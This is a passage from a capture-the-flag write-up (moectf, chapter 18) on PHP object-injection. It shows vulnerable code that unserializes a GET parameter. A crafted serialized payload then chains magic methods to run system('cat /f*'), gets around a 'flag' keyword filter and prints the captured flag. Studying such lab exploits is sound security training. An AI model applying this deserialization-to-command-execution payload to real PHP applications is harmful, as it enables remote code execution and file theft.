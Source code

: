 ```php
        $id = $this->id;
        $age = $this->age;
        $name->$id($age);
    }
}

class PersonB extends Person
{
    public function __set($key, $value)
    {
        $this->name = $value;
    }
}

class PersonC extends Person
{
    public function __Check($age)
    {
        if(str_contains($this->age . $this->name,"flag"))
        {
            die("Hacker!");
        }
        $name = $this->name;
        $name($age);
    }

    public function __wakeup()
    {
        $age = $this->age;
        $name = $this->id;
        $name->age = $age;
        $name($this);
    }
}

if(isset($_GET['person']))
{
    $person = unserialize($_GET['person']);
}
```

```
http://127.0.0.1:65309/?person=O:7:"PersonA":3:{s:4:"name";O:7:"PersonC":3:{s:4:"name";s:6:"system";s:2:"id";s:2:"xx";s:3:"age";s:2:"xx";}s:2:"id";s:7:"__Check";s:3:"age";s:7:"cat /f*";}
```

```
moectf{b9c0db89-853c-52fd-c779-ffe5bc66a127}
```

## 19 第十九章_revenge
